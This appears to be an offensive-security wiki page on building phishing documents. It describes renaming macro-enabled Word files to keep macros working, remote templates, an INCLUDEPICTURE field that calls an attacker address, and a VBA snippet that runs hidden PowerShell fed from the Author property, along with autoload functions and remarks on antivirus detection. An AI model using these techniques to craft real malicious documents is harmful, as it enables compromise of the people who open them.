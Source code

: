 # Phising Documents

Microsoft Word performs file data validation prior to opening a file. Data validation is performed in the form of data structure identification, against the OfficeOpenXML standard. If any error occurs during the data structure identification, the file being analysed will not be opened.

Usually Word files containing macros uses the `.docm` extension. However, it's possible to rename the file changing the file extension and still keep their macro executing capabilities.  
For example, an RTF file does not support macros, by design, but a DOCM file renamed to RTF will be handled by Microsoft Word and will be capable of macro execution.  
The same internals and mechanisms apply to all software of the Microsoft Office Suite \(Excel, PowerPoint etc.\).

You can use the following command to check with extensions are going to be executed by some Office programs:

```bash
assoc | findstr /i "word excel powerp"
```

DOCX files referencing a remote template \(File –Options –Add-ins –Manage: Templates –Go\) that includes macros can “execute” macros as well.

### Word with external image

Go to: _Insert --&gt; Quick Parts --&gt; Field_  
_**Categories**: Links and References, **Filed names**: includePicture, and **Filename or URL**: http://&lt;ip&gt;/whatever_

![](.gitbook/assets/image%20%28347%29.png)

### Macros Code

```bash
Dim author As String
author = oWB.BuiltinDocumentProperties("Author")
With objWshell1.Exec("powershell.exe -nop -Windowsstyle hidden -Command-")
 .StdIn.WriteLine author
 .StdIn.WriteBlackLines 1
```

## Autoload functions

The more common they are, the more probable the AV will detect it.

* AutoOpen\(\)
* Document\_Open\(\)
* 
